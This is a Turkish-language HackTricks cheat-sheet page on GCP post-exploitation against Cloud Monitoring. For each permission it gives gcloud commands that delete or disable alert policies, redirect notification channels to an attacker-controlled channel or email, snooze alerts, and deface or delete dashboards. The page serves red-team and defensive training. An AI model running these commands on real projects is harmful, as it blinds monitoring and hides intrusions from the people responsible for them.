 # GCP - İstismar Sonrası İzleme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hackleme püf noktalarını paylaşın.

</details>
{% endhint %}

## İzleme

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-monitoring-enum.md" %}
[gcp-monitoring-enum.md](../gcp-services/gcp-monitoring-enum.md)
{% endcontent-ref %}

Günlükleri bozmak için diğer yöntemler için kontrol edin:

{% content-ref url="gcp-logging-post-exploitation.md" %}
[gcp-logging-post-exploitation.md](gcp-logging-post-exploitation.md)
{% endcontent-ref %}

### `monitoring.alertPolicies.delete`

Bir uyarı politikasını silin:
```bash
gcloud alpha monitoring policies delete <policy>
```
### `monitoring.alertPolicies.update`

Bir uyarı politikasını bozun:
```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```
### `monitoring.dashboards.update`

Bir gösterge tablosunu bozmak için değiştirin:
```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
displayName: New Dashboard with New Display Name
etag: 40d1040034db4e5a9dee931ec1b12c0d
gridLayout:
widgets:
- text:
content: Hello World
'''
```
### `monitoring.dashboards.delete`

Bir gösterge tablosunu silin:
```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```
### `monitoring.snoozes.create`

Uyarıların oluşturulmasını engellemek için bir erteleyici oluşturun:

{% code overflow="wrap" %}
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
--criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
--start-time="2023-03-01T03:00:00.0-0500" \
--end-time="2023-03-07T23:59:59.5-0500"
```
{% endcode %}

### `monitoring.snoozes.update`

Saldırgan ilgilendiğinde uyarıların oluşturulmasını engellemek için bir ertelemenin zamanlamasını güncelle:
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
{% endcode %}

### `monitoring.notificationChannels.delete`

Yapılandırılmış bir kanalı silin:
```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```
### `monitoring.notificationChannels.update`

Bir kanalın etiketlerini bozmak için güncelleyin:

{% code overflow="wrap" %}
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hackleme püf noktalarını paylaşın.

</details>
{% endhint %}
